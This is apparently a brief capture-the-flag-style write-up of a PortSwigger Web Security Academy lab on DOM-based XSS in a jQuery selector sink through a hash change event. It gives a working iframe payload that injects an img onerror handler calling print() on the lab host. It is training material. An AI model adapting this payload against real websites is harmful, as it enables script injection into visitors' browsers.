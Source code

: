 ### Recon
1. Find the specific place to inject
![](https://i.imgur.com/hYcpZBn.png)

2. Follow the background reference to create the new payload

### Exp - `jQuery location.hash` vulnerability
Payload: `<iframe src="https://0aab00ee04037bdb802cc6c600230039.web-security-academy.net/#" onload="this.src+='<img src=xxx onerror=print()>'"></iframe>`
:::spoiler Success Screenshot
![](https://i.imgur.com/nOSouuD.png)
:::

### Reference
[Lab DOM XSS in jQuery Selector Sink Using a Hash Change Event](https://youtu.be/k4kpc0b8p5U)

## Reference
[Burp Suite Security Academy Writeup](https://github.com/frank-leitner/portswigger-websecurity-academy)